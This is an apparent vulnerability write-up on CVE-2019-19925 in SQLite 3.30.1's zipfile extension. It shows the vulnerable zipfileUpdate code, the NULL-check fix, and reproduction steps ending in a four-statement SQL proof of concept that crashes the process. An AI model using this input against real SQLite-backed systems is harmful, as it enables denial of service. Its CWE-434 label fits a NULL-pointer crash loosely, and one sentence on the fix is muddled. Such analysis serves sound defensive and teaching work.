


# CVE-2019-19925 CWE-434 SQLite DoS

## Vulnerability Background
- **SQLite:** A lightweight, embedded relational database management system that does not require separate server processes or complex configurations. SQLite stores data directly on the file system, featuring zero configuration, ease of use, and suitability for small applications. It supports standard SQL statements, provides good data security, and is widely used in desktop and mobile app development due to its lightweight nature.
- **Virtual Tables:** A special type of table in SQLite that allows users to access and operate external data sources or custom data structures through standard SQL interfaces, rather than storing data directly in database files like regular tables. It is implemented through specific modules, each defining the behavior of virtual tables and how data is accessed. These tables can integrate different types of data sources, such as files, directories, in-memory data, etc., making it convenient for users to query and operate using unified SQL statements. At the same time, SQLite functionality can be extended to meet specific data processing needs.
- **zipfile module:** In SQLite, ZIP files can be processed via the `zipfile` extension module, which links ZIP files to virtual tables, allowing users to manipulate ZIP file contents using standard SQL statements, facilitating data backup, sharing, and migration.
- **CWE-434:** An insecure file upload vulnerability, a common flaw in software security. This occurs when applications allow users to upload files without strict restrictions or verification of the uploaded content. Attackers can use this to upload malicious files, such as those containing malicious scripts or code. When the server processes these files, it can lead to serious consequences such as code execution, data breaches, or website tampering.

## Vulnerability Mechanism
When updating the ZIP archive, the zipfileUpdate function does not check for null path names (NULL), causing the program to crash (denial of service) by calling strlen on the NULL pointer.

**CWE-434: Unrestricted Upload of Dangerous Types of Files --> DoS**

## Vulnerability Location
In the ext\misc\zipfile.c file, line 1520 `zipfileUpdate` function is part of the `zipfile` extension module, responsible for reading the column values passed in SQL statements and writing or updating the corresponding files to the ZIP archive. Line 1619 is used to extract and process path, name, length, and time information in SQL operations. However, if the corresponding column in the SQL statement is `NULL` (for example, if no column value is provided), `sqlite3_value_text` will return a `NULL` pointer. Without any validation, the code immediately executes `strlen`, but due to `zPath==NULL`, the program triggers segmentation faults after reading an illegal memory address, causing the host process to crash.

```c
/*
** xUpdate method.
** zipfile.c 1520 lines
*/
static int zipfileUpdate(
  sqlite3_vtab *pVtab, 
  int nVal, 
  sqlite3_value **apVal, 
  sqlite_int64 *pRowid
){
    // ...
    // Line 1619
    if( rc==SQLITE_OK ){
      zPath = (const char*)sqlite3_value_text(apVal[2]);
      nPath = (int)strlen(zPath);
      mTime = zipfileGetTime(apVal[4]);
    }
    // ...
}
```

## Remediation
Added NULL handling to zipfileUpdate in ext/misc/zipfile.c file:

```c
if( rc==SQLITE_OK ){
   zPath = (const char*)sqlite3_value_text(apVal[2]);
   if( zPath==0 ) zPath = "";
   nPath = (int)strlen(zPath);
   mTime = zipfileGetTime(apVal[4]);
 }
```

This simple change will set `zPath` to NULL as an empty string, thus avoiding `strlen` on NULL.

## Affected Versions
SQLite 3.30.1 

## Environment Setup
Start Docker, SQLite version 3.30.1



## Vulnerability Reproduction
1. Go to the container command line and create a database test_db.

```bash
sqlite3 test_db
```

2. Create table t0 and use `replace into` statements to insert some initial data. The columns to be inserted are `c`, `b`, and `f`, corresponding to values `10`, `10`, and `10`。

```sql
CREATE TABLE t0(a,b,c,d,e,f,g);
REPLACE INTO t0(c,b,f) VALUES(10,10,10);
```

3. Use `zipfile` extension modules to create a virtual table named `t1` and attach the `h.zip` as the file associated with the virtual table. Data in virtual tables is stored in ZIP format in `h.zip` files, rather than in the database files themselves.

```sql
CREATE VIRTUAL TABLE t1 USING zipfile('h.zip');
```

4. Copy all data from the table `t0` to the virtual table `t1`, where you will see SQLite crash and exit.

```sql
REPLACE INTO t1 SELECT * FROM t0;
```



## PoC Analysis

```sql
CREATE TABLE t0(a,b,c,d,e,f,g);
REPLACE INTO t0(c,b,f) VALUES(10,10,10);
CREATE VIRTUAL TABLE t1 USING zipfile('h.zip');
REPLACE INTO t1 SELECT * FROM t0;
```

When the last `REPLACE INTO t1` statement tries to update the ZIP virtual table, the path name parameters corresponding to the third column are NULL because they are not provided in t0. At this point, the `apVal[2]` (path name column) is `NULL`, causing strlen to be called on NULL and crashing to output "Segmentation fault".

## References
[zipfileUpdate in ext/misc/zipfile.c in SQLite 3.30.1... · CVE-2019-19925 · GitHub Advisory Database](https://github.com/advisories/GHSA-wcjr-83cc-7pfq)

[SQLite: Check-in [a80f84b511\]](https://www.sqlite.org/src/info/a80f84b511231204)

[SQLite Zipfile Module - SQLite Database](https://sqlite.ac.cn/zipfile.html)
